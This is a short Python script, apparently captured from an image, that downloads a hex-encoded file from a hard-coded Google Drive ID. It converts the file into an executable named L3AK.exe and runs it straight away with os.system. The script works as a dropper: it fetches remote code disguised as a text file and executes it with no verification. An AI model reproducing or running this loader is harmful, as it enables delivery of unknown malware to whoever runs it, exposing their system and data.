 ```
import os
import requests

def download_file_from_google_drive(file_id, destination):
    URL = "https://docs.google.com/uc?export=download"

    session = requests.Session()

    response = session.get(URL, params={'id': file_id}, stream=True)
    token = get_confirm_token(response)

    if token:
        params = {'id': file_id, 'confirm': token}
        response = session.get(URL, params=params, stream=True)

    save_response_content(response, destination)

def get_confirm_token(response):
    for key, value in response.cookies.items():
        if key.startswith('download_warning'):
            return value
    return None

def save_response_content(response, destination):
    CHUNK_SIZE = 32768

    with open(destination, "wb") as f:
        for chunk in response.iter_content(CHUNK_SIZE):
            if chunk:
                f.write(chunk)

def hex_to_binary(hex_str):
    return bytes.fromhex(hex_str)

def save_binary_to_file(binary_data, file_path):
    with open(file_path, 'wb') as file:
        file.write(binary_data)

def reverse_hex_conversion(file_path, output_file):
    with open(file_path, 'r') as file:
        hex_content = file.read().strip()
    binary_data = hex_to_binary(hex_content)
    save_binary_to_file(binary_data, output_file)

def run_retrieved_file(file_path):
    os.system(file_path)

if __name__ == "__main__":
    # Download the file and save it as file_hex.txt
    file_id = "1lTEbD37UC7B7tIRoAEQ1YK6niLQHGZt0"
    input_file = "file_hex.txt"
    download_file_from_google_drive(file_id, input_file)
    
    # Convert hex to binary and save it as L3AK.exe
    output_file = "L3AK.exe"  
    reverse_hex_conversion(input_file, output_file)
    
    # Execute the retrieved file
    run_retrieved_file(output_file)
    
    print("File retrieved and executed as L3AK.exe")
```
